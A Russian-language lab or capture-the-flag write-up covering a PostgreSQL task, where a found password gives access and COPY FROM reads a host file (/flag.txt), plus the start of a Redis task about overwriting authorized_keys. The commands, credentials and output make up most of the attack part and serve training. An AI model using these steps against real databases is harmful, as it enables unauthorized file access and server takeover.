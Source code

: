 Логинимся:

```bash
root@attackerLogin:~# curl -u defbox:jennifer http://159.65.195.19/
ssetoicinnns+cilasitttottsoirtue
```

# Exploit PostgreSQL

### Task

Получите содержимое файла /flag.txt.
Подключитесь к PostgreSQL на удаленной машине с использованием найденной учетной записи.
Используйте psql чтобы получить доступ до хостовой системы.

### Solve

Login

```bash
root@attackerLogin:~# psql -h 10.184.48.3 -U postgres -W
Password: MOOS1cooraib6dull
```

Exploit

```postgres
postgres=# CREATE TABLE temp_flag (content text);
CREATE TABLE
postgres=# COPY temp_flag FROM '/flag.txt';
COPY 1
postgres=# SELECT * FROM temp_flag;
      content       
--------------------
 defbox{o9pikadryp}
(1 row)
postgres=#
```

### TIP

Можно сказать, что доступ к базе данных с использованием учетных данных — это инцидент безопасности. Даже если это тестовая база данных без важной информации, злоумышленник может развить атаку используя команду COPY в PostgreSQL.

# Exploit Redis

### Task

Redis — это база данных, которая по умолчанию позволяет анонимный доступ. Оставлять её открытой опасно — это может привести к удаленному выполнению кода и даже захвату сервера.

Экземпляр Redis по адресу 10.184.48.2 позволяет выгрузить базу данных и перезаписать файл authorized_keys для пользователя Redis своим собственным ключом. Используйте эту уязвимость, чтобы прочитать флаг, который находится в файле /flag.txt.
